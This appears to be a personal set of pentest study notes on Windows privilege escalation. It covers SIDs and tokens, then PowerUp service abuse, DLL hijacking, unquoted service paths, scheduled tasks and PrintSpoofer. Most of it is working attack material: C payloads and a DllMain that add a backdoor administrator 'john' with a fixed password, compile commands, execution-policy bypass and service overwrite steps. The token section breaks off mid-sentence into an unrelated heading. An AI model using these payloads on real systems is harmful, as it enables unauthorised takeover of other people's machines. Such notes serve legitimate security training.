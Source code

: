 # Understanding Windows Privileges and Access Control Mechanisms

Privileges define what a Windows account can do (e.g., modify files, add users). Windows uses several mechanisms to control this:

## Security Identifiers (SID)

- Unique values that identify users, groups, and other principals.
- Generated by the Local Security Authority (LSA) for local accounts or by a Domain Controller (DC) for domain accounts.
- Structure: `S-R-X-Y`
    
    - `S`: SID literal
        
    - `R`: Revision (always 1)
        
    - `X`: Identifier authority (commonly 5 for NT Authority)
        
    - `Y`: Sub-authorities (domain ID + Relative ID)

Example local user SID:

```
S-1-5-21-1336799502-1441772794-948155058-1001
```

Well-known SIDs:

```
S-1-0-0                       Nobody
S-1-1-0                       Everybody
S-1-5-11                      Authenticated Users
S-1-5-18                      Local System
S-1-5-domainidentifier-500    Administrator
```

## Access Tokens

- Created at authentication to define a user’s **security context**.
- Contain: user SID, group SIDs, privileges, and scope info.
- **Primary token**: assigned to processes/threads.
- **Impersonation token**: lets a thread act under

# Hidden in Plain Sight

```powershell
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

# Service Binary Hijacking
## PowerUp

Another useful tool to check privilege escalation vector is [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). We can upload it on the victim's machine and then use it to gain knowledge and exploit the privileges misconfiguration on the services. First, we enable the PowerShell scripting capability.

```powershell
powershell -ep bypass
```

Then we enable PowerUp

```powershell
. .\PowerUp.ps1
```

To list modifiable service we use

```powershell
Get-ModifiableServiceFile
```

Once we spot an interesting service, we can try to abuse it with

```powershell
Install-ServiceBinary -Name '<SERVICENAME>'
```

This will create the admin user `john` with password `Password123!`. To log-in with the created user we can restart the service (if we have the correct permissions and PowerUp.ps1 automatically uses the right arguments). Eventually we can restart the machine in order to have all services restarted. We also must notice that if the service require some additional configurations, for example passing a configuration file, the PowerUp.ps1 script will fail and we must exploit manually the privilege escalation, setting the right path to the configurations of the service (eg: mysql).

If we have to manually load a custom exploit into the service we can directly write the C code and compile it for our needs

```c
#include <stdlib.h>

int main ()
{
  int payload;
  
  payload = system ("net user john Password123! /add");
  payload = system ("net localgroup administrators john /add");
  
  return 0;
}
```

And then compile it with

```shell
x86_64-w64-mingw32-gcc payload.c -o payload.exe
```

# Service DLL Hijacking

DLL are the specular 'Shared Object' on Linux. They are libraries that provide functionalities for executable programs. With the program [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) we can monitor program calls. If we find that a program calls a DLL that is missing, it may be replaced (if we have the correct read/write permissions) by our malicious DLL. We can craft the DLL following [Microsoft's guidelines](https://learn.microsoft.com/it-it/troubleshoot/windows-client/deployment/dynamic-link-library) and insert into the case `DLL_PROCESS_ATTACHED` our code. The code can be similar to the previous code for the manual privilege escalation using Windows services.

This is the order Windows search for DLLs

```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```

The following C program can be used to exploit a missing DLL

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int payload;
        payload = system ("net user john Password123! /add");
        payload = system ("net localgroup administrators john /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

We will then compile it on the Linux machine with the `--shared` option and we load it in the Windows machine **in the path and with the name that Windows expect the DLL to have**. Obviously this works only if we have the **WRITE** permission on that files.

```shell
x86_64-w64-mingw32-gcc calledDll.cpp --shared -o calledDll.dll
```

Transfer the file and restart the service with

```powershell
Restart-Service <SERVICENAME>
```

And we will be able to execute a shell as admin with the user john. We could not be able to log-in via RDP because the user may not be in the RDP group.

# Unquoted Service Paths

When a service is created whose executable path contains spaces and isn’t enclosed within quotes, leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is). In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument.

We find unquoted paths with the command

```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

We must check if we have write permissions on the executable in order to replace it with a new one.

```powershell
icacls "C:\Program Files\Enterprise Apps\path\to\service.exe"
```

Then if we have permission on the service we can start or stop it with `Start-Service` or `Stop-Service` command. Once we got the paths we can use PowerUp.ps1 for exploiting the service. This means the service will be replaced with a malicious exe.

```powershell
Get-UnquotedService
powershell -ep bypass
. .\PowerUp.ps1
```

And finally we run the command to overwrite the service with

```powershell
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```

Now restarting the service will grant us an Administrator account with user john and Password123! as credentials

```powershell
Restart-Service GammaService
```

# Scheduled Tasks

If a task is executed periodically, we can exploit the called program if we have write permissions on it. To seek for scheduled tasks we can run.

```powershell
schtasks /query /fo LIST /v
```

Eventually we can use `findstr` if we want to search for something specific. After that we can replace the program with a simple .exe that creates a new admin user.

# Using exploits

We can use multiple exploits for Windows, depending on the privileges we got on the system. An example could be [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe). We could serve it on the victim machine. If we have `SeImpersonatePrivilege` privilege displayable with `whoami /priv` we could gain Admin privileges with

```powershell
.\PrintSpoofer64.exe -i -c powershell.exe
```

There is a wide range of this exploits. We can use the whole [Potato Family](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) and perform a Privilege Escalation. A real-life scenario of a Windows privilege escalation could be exploiting the [`SeBackupPrivilege`](https://juggernaut-sec.com/sebackupprivilege).